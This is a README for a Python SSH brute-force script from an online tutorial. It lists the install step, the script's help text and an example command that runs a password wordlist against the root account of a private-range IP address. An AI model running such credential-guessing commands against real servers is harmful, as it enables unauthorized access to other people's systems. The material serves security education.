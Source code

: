 # [How to Brute-Force SSH Servers in Python](https://www.thepythoncode.com/article/brute-force-ssh-servers-using-paramiko-in-python)
To run this:
- `pip3 install -r requirements.txt`
- 
    ```
    python bruteforce_ssh.py --help
    ```
    **Outputs:**
    ```
    usage: bruteforce_ssh.py [-h] [-P PASSLIST] [-u USER] host

    SSH Bruteforce Python script.

    positional arguments:
    host                  Hostname or IP Address of SSH Server to bruteforce.

    optional arguments:
    -h, --help            show this help message and exit
    -P PASSLIST, --passlist PASSLIST
                            File that contain password list in each line.
    -u USER, --user USER  Host username.
    ```
- If you want to bruteforce against the server `192.168.1.101` for example, the user `root` and a password list of `wordlist.txt`:
    ```
    python bruteforce_ssh.py 192.168.1.101 -u root -P wordlist.txt
    ```

I last used this in 2021, not sure if its up to date.
